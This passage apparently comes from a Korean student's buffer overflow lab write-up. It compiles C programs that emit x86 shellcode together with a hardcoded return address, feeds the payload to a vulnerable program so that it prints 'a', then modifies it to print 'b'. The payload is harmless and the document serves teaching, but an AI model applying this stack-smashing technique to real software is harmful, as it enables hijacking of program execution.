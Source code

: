 ```bash
$ gcc -o inp-write3 inp-write3.c
$./inp-write3 > attack-inp3
$ xxd attack-inp3
0000000: 6a61 89e6 31c0 b004 31db b301 89f1 31d2  ja..1...1.....1.
0000010: b201 cd80 31c0 b001 31db cd80 f0d4 ffff  ....1...1.......
$ ./f2 < attack-inp3
id location:0xffffd4f0. enter id
you entered ja��1��1۳��1Ҳ̀1��1�̀����
a$
```

![](img/3.png)

### 4) Modify your code such that it displays 'b' instead of 'a'.

아스키 코드가 61인 'a' 대신에 'b'를 표시해야하기 때문에 기존의 `inp-write3.c`에서 `printf("\x6a\x61");`를 `printf("\x6a\x62");`로 바꿔주었다. ('b'의 아스키 코드는 62이다.)

`inp-write4.c`:

```c
#include <stdio.h>
void main(){
   printf("\x6a\x62");         // push 0x62. to write ‘b’ instead of ‘a’
   printf("\x89\xe6");         // mov esi, esp. buf location
   printf("\x31\xc0");         // xor eax, eax
   printf("\xb0\x04");         // mov al, 0x4  system call number for write()
   printf("\x31\xdb");         // xor ebx, ebx
   printf("\xb3\x01");         // mov bl,  0x1  file number
   printf("\x89\xf1");         // mov ecx, esi
   printf("\x31\xd2");         // xor edx, edx
   printf("\xb2\x01");         // mov dl, 0x1  num of bytes to write
   printf("\xcd\x80");         // int 0x80. write(1, buf, 1). write 'a' in the screen.
   printf("\x31\xc0");         // xor eax, eax
   printf("\xb0\x01");         // mov al, 0x1  system call number for exit()
   printf("\x31\xdb");         // xor ebx, ebx
   printf("\xcd\x80");         // int 0x80. exit(0)
   printf("\xf0\xd4\xff\xff"); // ret addr
}
```
